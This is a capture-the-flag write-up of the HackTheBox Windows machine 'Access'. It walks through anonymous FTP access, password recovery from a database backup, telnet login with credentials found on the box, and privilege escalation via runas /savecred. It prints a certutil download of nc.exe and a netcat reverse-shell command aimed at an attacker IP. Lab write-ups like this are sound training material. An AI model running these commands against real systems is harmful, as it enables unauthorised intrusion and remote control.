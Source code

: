 ```yaml
---
title: Access Hackthebox Writeup
date: 2020-12-21 09:00:00 +0800
categories: [Hackthebox, Retired]
tags: [windows,ftp,ftp anonymous,runas,telnet,password finding]     # TAG names should always be lowercase
image: /assets/img/access-hackthebox/access-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Access:~$


Column | Details
------------ | -------------
Name | Access
IP | 10.10.10.98
Points | 20
Os | Windows
Difficult | Easy
Creator | [egre55](https://www.hackthebox.eu/home/users/profile/1190)
Out on | 29th September 2018

# Summary:~$

* Discovering the new host and scanning for open ports.
* `Anonymous` loging into the ftp port.
* Downloading the files in both of the directories via `ftp`.
* Extracting the password from `backup.mdb` to open `Access Control.zip` file.
* Loging in with the `credentials` found for telnet and getting user flag.
* Exploiting `runas` command to get the Root Privileges on the machine.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/access-hackthebox/nmap-scan-1.png)

Basically `3` Ports are open i.e. `21,23,80`. Let's access `Port 80` first.

___
![](/assets/img/access-hackthebox/port-80-page-5.png)

I moved around a bit and even tried dirbuster on it, but found nothing interesting.

Now let's try to log into the `ftp` port as `anonymous` user.

**Username**: `anonymous` and **Password**: `anonymous`

___
![](/assets/img/access-hackthebox/loggedin-anonymous-ftp-2.png)

It shows two directories i.e. `Backups` and `Engineer`.

Downloading `backup.mdb` from **Backups** directory.

___
![](/assets/img/access-hackthebox/downloaded-backup-from-Backups-3.png)

Downloading `Access Control.zip` from **Engineer** directory.

___
![](/assets/img/access-hackthebox/downloaded-access-control-from-engineer-4.png)

I tried opening `Access Control.zip` but it requires a password.

___
![](/assets/img/access-hackthebox/access-control-password-6.png)

I assumed that we might find the `password` for *Access Control.zip* in `backup.mdb`, I directly ran the `strings` command on *backup.mdb* and found this:

___
![](/assets/img/access-hackthebox/access-password-strings-backup-mdb-7.png)

**Password**: `access4u@security`.

After accessing `Access Control.zip` it showed me a *.pst* file, which I opened on an online mail viewer.

___
![](/assets/img/access-hackthebox/pst-file-email-password-8.png)

It gave us some credentials, accessing telnet with it.

**Username**: `security` and **Password**: `4Cc3ssC0ntr0ller`.

Loggedin telnet successfully and got `User Flag`.

___
![](/assets/img/access-hackthebox/got-telnet-shell-9.png)

For `Privilege Escalation`, I found a file in **C:\Users\Public\Desktop** with a name called *ZKAccess3.5 Security System.lnk*

___
![](/assets/img/access-hackthebox/users-public-desktop-file-10.png)

Using `type` command to get the contents of the file.

___
![](/assets/img/access-hackthebox/run-as-command-in-file-11.png)

After seeing `runas` command with **Administrator** mentioned in it (*runas command is being excuted as administrator*), I checked the permissions for administrator first.

___
![](/assets/img/access-hackthebox/no-password-required-for-admin-12.png)

As we can see that `Password required` is set to **No**, Let's try to escalate privileges using `runas` command. Before that transfering `nc.exe` to the machine using `certutil` command.

**Command**: `certutil -urlcache -split -f http://10.10.xx.xx/nc.exe nc.exe`

*Make sure you are hosting nc.exe using python server. **Commamd** : `sudo python3 -m http.server 80`*

___
![](/assets/img/access-hackthebox/downloaded-nc-on-windows-machine-13.png)

Now using `runas` command to escalate privileges,  **runas** allows us to run commands as another user and the option /savecred allows us to use the command without asking for password.

[runas commands](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---runas)

**Command**: `runas /user:Administrator /savecred "nc.exe -e cmd.exe 10.10.X.X LPORT"`

___
![](/assets/img/access-hackthebox/runas-command-got-root-shell-14.png)

Got `Root`.

